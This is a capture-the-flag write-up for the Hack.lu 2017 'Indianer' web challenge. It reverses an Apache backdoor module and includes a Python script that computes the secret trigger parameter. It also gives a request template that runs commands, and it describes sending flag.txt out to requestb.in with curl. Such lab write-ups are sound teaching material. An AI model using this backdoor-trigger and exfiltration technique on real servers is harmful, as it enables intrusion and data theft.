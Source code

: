 # [HACK.LU-CTF-2017] Indianer (Web, Pwn)
##### **Description :** Try to enter this Tipi
#
When we click on the given link, we land on a default installation page of an Apache/2.4.7

The download link gives us a Apache2 module binary named **backdoor.so**

We reverse the binary and stumble across the request processing function cleverly named **strlen()**

![strlen_function](https://git.adm.fr.clara.net/mdunnewind/Rot26-writeups/raw/master/CTF/hacklu/2017/web/indianer/imgs/reverse_eng.png)

After studying the request processing algorithm, we know that our request should look like this :
```
GET /index.html?[needle_value]=[command]
```

We also know how the needles are generated, let's use a quick python script to compute the first value :
```
constante_6e = 0x6e
needle = [0]*256

for i in range(0,512,9) :
        needle[i % 35] = (((constante_6e & 1) + i) % 24) + 97
    	needle[35] = 0
        
print "".join(chr(x) for x in needle).strip('\0')[:34]
```
Which spits us this value : **dpdpdpamamamamajvjvjvjvgsgsgsgsgpd**

We can now grab flag.txt by sending it's content to a requestb.in with curl (netcat wasn't available to pop a shell :)

![strlen_function](https://git.adm.fr.clara.net/mdunnewind/Rot26-writeups/raw/master/CTF/hacklu/2017/web/indianer/imgs/burp_req.png)

Gotcha!

![strlen_function](https://git.adm.fr.clara.net/mdunnewind/Rot26-writeups/raw/master/CTF/hacklu/2017/web/indianer/imgs/reqbin.png)
